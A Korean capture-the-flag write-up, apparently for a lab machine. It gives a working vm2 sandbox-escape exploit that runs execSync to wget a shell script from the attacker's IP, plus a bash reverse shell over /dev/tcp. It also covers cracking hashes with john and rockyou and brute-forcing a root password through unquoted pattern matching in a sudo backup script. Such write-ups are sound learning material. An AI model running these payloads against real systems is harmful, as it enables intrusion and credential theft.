 ### 초기
- Node.js code를 온라인에서 실행하는 샌드 박스 프로그램이 있는 것을 확인
- 해당 웹 서버에는 제한 사항이 있음(사용 불가 기능)
  - fs
  - 자식 프로세스

- 3.9.16 이하 버전 vm2 취약점이 있는 것을 알 수 있었다.
- 순서
  - 에러 객체에 오버라이딩 함
  - 에러를 발생시켜 오버라이딩한 내용을 실행
  - access objects created outside the sandbox and execute arbitrary code
- 해당 코드를 사용하여 실행한다.

```
const {VM}=require("vm2");
const vm=new VM();

const code=`
const customInspectSymbol=Symbol.for('nodejs.util.inspect.custom');

obj={

[customInspectSymbol]: (depth, opt, inspect)=>{
inspect.constructor('return process')().mainModule.require('child_process').execSync('wget <내 ip>:80/shell.sh');
}, valueOf: undefined,
constructor: undefined,
}
WebAssembly.compileStreaming(obj).catch(()=>{});
`;
vm.run(code);
```
- execSync('')안에 실행할 코드를 넣는다.
- python3 -m http.server 80 실행 후 wget http://10.10.14.33:80/shell.sh 를 넣어 쉘을 다운로드 시킨다.
</br>
### shell.sh에
### #!/bin/bash
### sh -i >& /dev/tcp/10.10.14.33/4444 0>&1 를 넣고 원격으로 실행 시킨다.
- chmod +x shell.sh, ./shell.sh 를 순서대로 넣어 reverse shell을 획득한다.
- 내부에서 얻은 결과
  - joshua 폴더로 이동할 수 없었다.
  - /var/www/contact/tickets.db 파일에서 pw 해시 값을 얻을 수 있었다.
- john pw.txt --wordlist=/usr/share/wordlists/rockyou.txt로 비밀번호 크랙을 시도한다.
- spongebob1 값을 찾았고 이를 사용하여 ssh joshua@10.10.11.239로 접속을 시도한다.

  ### ssh로 연결 한 후
- sudo -l로 sudo 권한으로 실행할 수 있는 파일인 mysql-backup.sh를 찾을 수 있다.
  - mysql-backup.sh: mysql 백업 스크립트
  - sudo -l: 시스템의 현재 사용자 또는 지정된 사용자에게 부여 된 권한을 나열
- mysql-backup.sh
  - 스크립트 파일안에 pw를 검증하는 코드가 있는데 DB_PASS==USER_PASS에서 USER_PASS가 " " 안에 없을 경우 문자열로 인식하지 않고 pattern matching을 사용한다
  - 한 글자씩 비교하고 정규표현식으로 *를 넣어 패스워드를 비교한다
  - crack1.py를 만들고 python3 crack1.py로 실행하여 pw를 찾는다
  - 찾은 pw로 su root를 실행하여 root.txt를 찾는다

  ### 결론
- nodejs 코드 실행기에서 샌드박스 이스케이프를 활용하여 코드를 실행
- 취약한 mysql 백업 스크립트에서 root 패스워드 탈취
- bash에서 실행되는 db.sh이므로 brute force에 취약했음
- 웹 앱, db, 스크립트 광범위한 분야에서 보호해야 한다
